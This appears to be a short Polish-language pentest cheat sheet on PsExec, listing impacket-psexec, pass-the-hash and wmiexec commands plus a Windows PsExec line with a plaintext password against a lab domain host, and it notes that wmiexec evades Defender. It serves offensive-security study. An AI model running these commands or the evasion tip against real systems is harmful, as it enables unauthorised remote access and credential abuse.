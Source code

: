 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# PsExec

**Impacket-PsExec** KALI

```
impacket-psexec cyber.local/jessicar@10.20.10.5
```

logowanie na Win za pomocą przechwyconego hasha

```
impacket-psexec -hashes ":<hash>" cyber.local/jessicar@10.20.10.5
```

alternatywne wmiexec - nie wykrywany przez Defendera, ale pół interaktywny - czyli jak nie podamy odrazu hasła to wmiexec nas o to nie spyta tylko się nie zaloguje

```
impacket-wmiexec -hashes ":<hash>" cyber.local/jessicar@10.20.10.5
```

**PsExec** WIN

```
#w folderze gdzie jest PsExec
.\PsExec.exe

#łaczenie się z kalim
.\PsExec.exe -u "jessicar" -p "Aa123456!" -s \\10.20.10.5 cmd.exe
```
